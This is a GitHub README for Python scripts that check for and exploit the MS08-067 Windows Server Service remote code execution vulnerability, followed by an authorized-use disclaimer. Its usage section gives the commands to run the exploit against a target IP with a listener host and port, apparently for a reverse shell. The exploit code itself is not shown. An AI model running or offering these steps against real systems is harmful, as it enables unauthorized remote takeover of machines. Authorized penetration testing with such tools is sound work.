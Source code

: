 <div align="center">
  
  <a href="https://github.com/BinRacer/ms08-067.py">
    <img src="images/banner.svg" alt="ms08-067.py" style="width:100%; max-width:100%; margin-top:0; margin-bottom:-0.5rem">
  </a>
</div>

---

## 📖 Overview

This repository contains some python scripts implementation for the MS08-067 Windows Server Service vulnerability (CVE-2008-4250). This is a classic remote code execution vulnerability affecting older Windows systems.

## 🛠️ Installation & Usage

### Prerequisites
- Python3
- Authorized testing environment


### 🤔How To Use?

First, open Shell or Cmd. And 	
👉 Run the following command:
```shell
git clone https://github.com/BinRacer/ms08-067.py.git
cd ms08-067.py
pip install -r requirements.txt
python src/ms08_067_check.py <target_ip>
# before use ms08_067_exploit.py, must replace shellcode in python file
python src/ms08_067_exploit.py <target_ip> <lhost> <lport>
```

## ⚠️ Global Legal Disclaimer for Security Research Software

**IMPORTANT: PLEASE READ THIS DISCLAIMER CAREFULLY BEFORE USING THIS SOFTWARE. THIS SOFTWARE IS INTENDED FOR AUTHORIZED SECURITY RESEARCH AND TESTING ONLY. UNAUTHORIZED USE IS STRICTLY PROHIBITED AND MAY RESULT IN SEVERE LEGAL CONSEQUENCES.**
